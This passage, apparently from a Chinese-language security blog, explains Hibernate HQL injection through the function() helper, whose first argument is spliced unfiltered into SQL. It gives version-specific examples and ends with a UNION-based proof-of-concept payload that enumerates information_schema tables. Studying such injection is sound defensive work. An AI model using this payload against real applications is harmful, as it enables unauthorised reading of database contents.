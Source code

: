 `function()`函数是用来调用自定义函数或数据库自带函数的，和某些动态函数调用差不多吧

```sql
function(&#39;version&#39;) =&gt; version()
function(&#39;updatexml&#39;,1,1,1) =&gt; updatexml(1,1,1)
function(&#39;aaaa&#39;&#39;bbbb&#39;,1,1,1) =&gt; aaaa&#39;&#39;bbbb(1,1,1) 5.x版本
function(&#39;aaaa&#39;&#39;bbbb&#39;,1,1,1) =&gt; aaaa&#39;bbbb(1,1,1)  6.x版本
```

第一参数作为函数名，随后拼接一个括号，后面的参数则是括号里的内容

而`function()`函数的利用和`sql()`函数一样，是直接拼接在解析后的SQL语句中的，而且第一参数的内容没有任何限制

这样就可以构造一个可利用POC了

```sql
?name=test&#39; and function(&#39;1=2 union select 1,table_name,table_schema from information_schema.tables#&#39;)=&#39;
```

![image-20250312163303852](resource/Hibernate-HQL注入.assets/image-20250312163303852.png)
